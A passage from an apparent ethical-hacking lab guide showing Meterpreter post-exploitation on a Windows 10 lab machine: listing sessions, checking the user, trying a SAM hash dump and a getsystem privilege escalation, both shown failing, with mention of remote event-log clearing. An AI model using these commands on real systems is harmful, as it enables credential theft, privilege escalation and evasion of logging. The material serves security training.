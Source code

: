 To interact with the available sessions, you can use the command `sessions` or `sessions -i` to list the current sessions opened. **To open any session, select the ID by issuing the command:**

`sessions <ID>`

![sessions](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/2b57cd80a9fdbe2dfd1bf4ad18f9df32f894a256/sessions.png)

## Establish a Session
[[+] Meterpreter Cheat Sheet](https://www.blueliv.com/downloads/Meterpreter_cheat_sheet_v0.1.pdf)

Open the current Meterpreter session and type:

`getuid`
```
meterpreter > getuid
Server username: DESKTOP-ICB2IQ4\dummy  
```
You will notice that the Meterpreter server is running with the normal user privileges. You will not be able to execute command (such as `hashdump`, which dumps the user account hashes located in the **SAM** file; `clearev`, which clears the event logs remotely; and so on.) that requires administrative/root privileges.

Let's check this out by executing this command:

`run post/windows/gather/smart_hashdump`

```
meterpreter > run post/windows/gather/smart_hashdump

[*] Running module against DESKTOP-ICB2IQ4
[*] Hashes will be saved to the database if one is connected.
[+] Hashes will be saved in loot in JtR password file format to:
[*] /root/.msf4/loot/20191218220106_default_10.0.2.15_windows.hashes_986306.txt
[-] Insufficient privileges to dump hashes!
```
**[-] Insufficient privileges to dump hashes!**

The command fails to dump the hashes from the SAM file located in Windows 10 and returns an error stating that Insufficient Privileges to dump hashes.

From this, it is evident that Meterpreter server requires admin privileges to perform such actions.

Now, we can try to escalate the privileges by issuing a `getsystem` command that attempts to elevate the user privileges.

`getsystem -t 1` 

_which uses the Service - [Named Pipe Impersonation](https://securityintelligence.com/identifying-named-pipe-impersonation-and-other-malicious-privilege-escalation-techniques/) (In Memory/Admin) Technique._

```
meterpreter > getsystem -t 1
[-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
```
